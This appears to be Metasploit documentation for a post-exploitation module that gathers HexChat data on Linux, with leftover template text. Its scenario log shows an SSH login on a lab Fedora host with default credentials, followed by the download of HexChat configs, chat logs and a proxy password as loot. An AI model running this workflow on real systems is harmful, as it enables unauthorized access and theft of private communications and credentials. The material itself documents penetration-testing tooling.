 The following is the recommended format for module documentation. But feel free to add more content/sections to this.
One of the general ideas behind these documents is to help someone troubleshoot the module if it were to stop
functioning in 5+ years, so giving links or specific examples can be VERY helpful.

## Vulnerable Application

Instructions to get the vulnerable application.  If applicable, include links to the vulnerable install files, as well as instructions on installing/configuring the environment if it is different than a standard install. Much of this will come from the PR, and can be copy/pasted.

## Verification Steps
  Example steps in this format (is also in the PR):

  1. Install the application
  2. Start msfconsole
  3. Do: ```use [module path]```
  4. Do: ```run```
  5. You should get a shell.
 
## Options
List each option and how to use it. 

### Option Name

Talk about what it does, and how to use it appropriately.  If the default value is likely to change, include the default value here.

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.


### Hexchat 2.14.3 on Fedora 31

    ```
    [*] Processing xchat.rb for ERB directives.
    resource (xchat.rb)> use auxiliary/scanner/ssh/ssh_login
    resource (xchat.rb)> set username fedora
    username => fedora
    resource (xchat.rb)> set password fedora
    password => fedora
    resource (xchat.rb)> set rhosts 192.168.2.145
    rhosts => 192.168.2.145
    resource (xchat.rb)> run
    [+] 192.168.2.145:22 - Success: 'fedora:fedora' ''
    [*] Command shell session 1 opened (192.168.2.128:40023 -> 192.168.2.145:22) at 2020-04-22 07:17:59 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    resource (xchat.rb)> use post/linux/gather/enum_hexchat
    resource (xchat.rb)> set session -1
    session => -1
    resource (xchat.rb)> set verbose true
    verbose => true
    resource (xchat.rb)> run
    [!] SESSION may not be compatible with this module.
    [*] Detcted username: fedora
    [+] Downloading: /home/fedora/.config/hexchat/servlist.conf
    [+] Downloading: /home/fedora/.config/hexchat/hexchat.conf
    [+] IRC nick: test14123251232151
    [+] IRC nick1: test1251212123151
    [+] IRC nick2: test123123123
    [+] IRC nick3: test321321321
    [+] Proxy conf: 1.1.1.1:9999 -> proxyusername/proxypass
    [*] Downloading: /home/fedora/.config/hexchat//logs/freenode/freenode.log
    [*] Downloading: /home/fedora/.config/hexchat//logs/freenode/#postgresql.log
    [*] Downloading: /home/fedora/.config/hexchat//logs/freenode/#python-unregistered.log
    [*] Downloading: /home/fedora/.config/hexchat//logs/freenode/server.log
    [*] Downloading: /home/fedora/.config/hexchat//logs/NETWORK/server.log
    [+] servlist.conf saved as /home/h00die/.msf4/loot/20200422071815_default_192.168.2.145_hexchat.config_359863.txt
    [+] hexchat.conf saved as /home/h00die/.msf4/loot/20200422071816_default_192.168.2.145_hexchat.config_347758.txt
    [+] freenode.log saved as /home/h00die/.msf4/loot/20200422071816_default_192.168.2.145_hexchat.chatlogs_364082.txt
    [+] #postgresql.log saved as /home/h00die/.msf4/loot/20200422071816_default_192.168.2.145_hexchat.chatlogs_991489.txt
    [+] #python-unregistered.log saved as /home/h00die/.msf4/loot/20200422071816_default_192.168.2.145_hexchat.chatlogs_760685.txt
    [+] server.log saved as /home/h00die/.msf4/loot/20200422071816_default_192.168.2.145_hexchat.chatlogs_022702.txt
    [+] server.log saved as /home/h00die/.msf4/loot/20200422071816_default_192.168.2.145_hexchat.chatlogs_433357.txt
    [*] Post module execution completed
    ```
